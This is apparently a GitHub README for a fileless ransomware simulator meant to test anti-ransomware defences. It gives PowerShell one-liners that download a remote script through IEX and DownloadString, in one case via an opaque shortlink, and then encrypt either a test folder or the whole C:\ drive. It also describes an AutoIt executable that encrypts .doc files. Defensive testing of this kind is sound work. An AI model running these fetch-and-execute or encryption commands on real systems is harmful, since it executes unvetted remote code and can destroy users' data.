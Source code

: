 # RansomSimulator

Fileless ransomware simulator - to evaluate your anti-ransomware mitigation technology

**Example:**

Encryption - 

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1");Invoke-RansomSIM -Mode Encrypt -Path 'C:\Users\tester\Documents\Test';

You may use shortlinks as well, example: PS> IEX (New-Object Net.WebClient).DownloadString("https://lnkd.in/gzTmAiKu");Invoke-RansomSIM -Mode Encrypt -Path 'C:\';

Decryption - 

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1");Invoke-RansomSIM -Mode Decrypt -Path 'C:\Users\tester\Documents\Test';

# Bonus
An autoIt script - you may compile it to an executable using Aut2Exe, or execute it using the interpreter (encrypts only .doc files)

**Example:**

Encryption - 

RansomSIM.exe /encrypt C:\
  
Decryption - 

RansomSIM.exe /decrypt C:\


